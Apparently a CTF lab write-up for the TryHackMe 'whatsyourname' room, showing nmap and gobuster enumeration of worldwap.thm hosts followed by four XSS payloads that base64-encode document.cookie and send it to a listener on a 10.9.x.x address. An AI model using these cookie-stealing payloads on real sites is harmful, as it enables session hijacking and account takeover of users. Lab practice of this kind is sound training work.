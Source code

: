 <code>
https://tryhackme.com/r/room/whatsyourname

### Enumeration
                                                                                                                 
┌──(kali㉿kali)-[~]
└─$ nmap -sV -A worldwap.thm     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-07 04:46 EST
Nmap scan report for worldwap.thm (10.10.133.78)
Host is up (0.036s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 19:17:91:7b:c7:75:e2:35:74:31:c9:34:8d:5f:c0:84 (RSA)
|   256 e7:3c:be:15:d0:ab:cc:10:93:de:1d:e9:bf:46:24:52 (ECDSA)
|_  256 11:1a:26:ec:d1:eb:56:dd:d4:b7:11:41:87:5f:b6:26 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Welcome
|_Requested resource was /public/html/
8081/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.78 seconds

┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://worldwap.thm -x php,txt,html 
/.php                 (Status: 403) [Size: 277]
/index.php            (Status: 302) [Size: 0] [--> /public/html/]
/.html                (Status: 403) [Size: 277]
/public               (Status: 301) [Size: 313] [--> http://worldwap.thm/public/]
/api                  (Status: 301) [Size: 310] [--> http://worldwap.thm/api/]
/javascript           (Status: 301) [Size: 317] [--> http://worldwap.thm/javascript/]
/logs.txt             (Status: 200) [Size: 0]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://worldwap.thm/phpmyadmin/]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]

┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://login.worldwap.thm -x php,txt,html 

/.php                 (Status: 403) [Size: 283]
/.html                (Status: 403) [Size: 283]
/index.php            (Status: 200) [Size: 70]
/login.php            (Status: 200) [Size: 3108]
/profile.php          (Status: 302) [Size: 0] [--> login.php]
/clear.php            (Status: 200) [Size: 4]
/assets               (Status: 301) [Size: 325] [--> http://login.worldwap.thm/assets/]
/chat.php             (Status: 302) [Size: 0] [--> login.php]
/db.php               (Status: 200) [Size: 0]
/javascript           (Status: 301) [Size: 329] [--> http://login.worldwap.thm/javascript/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/setup.php            (Status: 200) [Size: 149]
/block.php            (Status: 200) [Size: 15]
/logs.txt             (Status: 200) [Size: 0]
/phpmyadmin           (Status: 301) [Size: 329] [--> http://login.worldwap.thm/phpmyadmin/]
/.html                (Status: 403) [Size: 283]
/.php                 (Status: 403) [Size: 283]
/change_password.php  (Status: 302) [Size: 4] [--> login.php]
/server-status        (Status: 403) [Size: 283]
Progress: 882240 / 882244 (100.00%)


                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://worldwap.thm:8081 -x php,txt,html 

/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/index.php            (Status: 200) [Size: 70]
/login.php            (Status: 200) [Size: 3108]
/profile.php          (Status: 302) [Size: 0] [--> login.php]
/clear.php            (Status: 200) [Size: 4]
/assets               (Status: 301) [Size: 320] [--> http://worldwap.thm:8081/assets/]
/chat.php             (Status: 302) [Size: 0] [--> login.php]
/db.php               (Status: 200) [Size: 0]
/javascript           (Status: 301) [Size: 324] [--> http://worldwap.thm:8081/javascript/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/setup.php            (Status: 200) [Size: 149]
/block.php            (Status: 200) [Size: 15]
/logs.txt             (Status: 200) [Size: 0]
/phpmyadmin           (Status: 301) [Size: 324] [--> http://worldwap.thm:8081/phpmyadmin/]
/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/change_password.php  (Status: 302) [Size: 4] [--> login.php]
/server-status        (Status: 403) [Size: 279]



<script>fetch('http://10.9.1.66:8000/?cookie=' + btoa(document.cookie));</script>
<script>var i=new Image(); i.src="https//10.9.1.66:8000/?cookie="+btoa(document.cookie);</script>        
<script>var i=new Image(); i.src="http://10.9.1.159:8000/?cookie="+btoa(document.cookie);</script>      
<script>var i=new Image(); i.src="http://10.9.1.159:8000/?cookieX="+btoa(document.cookie);</script>  


  
<\code>
